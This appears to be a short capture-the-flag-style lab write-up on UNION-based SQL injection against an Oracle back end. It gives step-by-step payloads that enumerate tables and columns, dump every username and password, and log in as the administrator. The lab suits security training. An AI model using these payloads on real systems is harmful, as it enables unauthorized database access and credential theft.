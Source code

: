 ## Solution steps
USERS_SIGBSQ USERNAME_UGZFIJ PASSWORD_CVKYGH
- Open Burp suite and set-up proxy.
- Determine the number of columns that are being returned by the query and which columns contain text data.
- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'a','b'+FROM+dual--`
- Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
- Find the name of the table containing user credentials: `USERS_SIGBSQ`
- Use the following payload to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_SIGBSQ'--`
- Find the names of the columns containing usernames and passwords: `USERNAME_UGZFIJ` `PASSWORD_CVKYGH`
- Use the following payload to retrieve the usernames and passwords for all users: `'+UNION+SELECT+USERNAME_UGZFIJ,+PASSWORD_CVKYGH+FROM+USERS_SIGBSQ--`
- Find the password for the `administrator` user, and use it to log in.
